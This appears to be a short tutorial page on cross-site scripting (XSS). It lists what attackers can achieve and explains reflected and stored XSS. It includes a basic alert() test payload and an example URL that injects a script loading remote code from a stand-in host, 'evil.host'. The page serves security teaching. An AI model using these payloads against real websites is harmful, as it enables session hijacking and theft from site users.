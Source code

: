# Cross site scripting

XSS allows attackers to inject malicious scripts into a webpage. It's usually caused by insufficient input validation and improper encoding of user input that is displayed on web pages. Using XSS, attackers can achieve the following:

* Hijack accounts and sessions
* Steal sensitive information
* Modify page content and deface websites
* Redirect users to another webpage
* Record keystrokes
* Redirect to websites that exploit browser vulnerabilities
* Trick users into downloading files or entering information \(e.g. via phishing\)

## Basic technique

Put this in a form input field and see if it pops an alert box:

```text
<script>alert("hello");</script>
```

This is an example of reflected XSS. A stored XSS attack would mean the malicious script was permanently stored in the database \(e.g. as a comment on a discussion board\).

JavaScript can also be injected through a URL, which an unsuspecting person might click in an email:

```text
https://example.com/test.php?val=<script src=”http://evil.host/evil.js”></script>
```

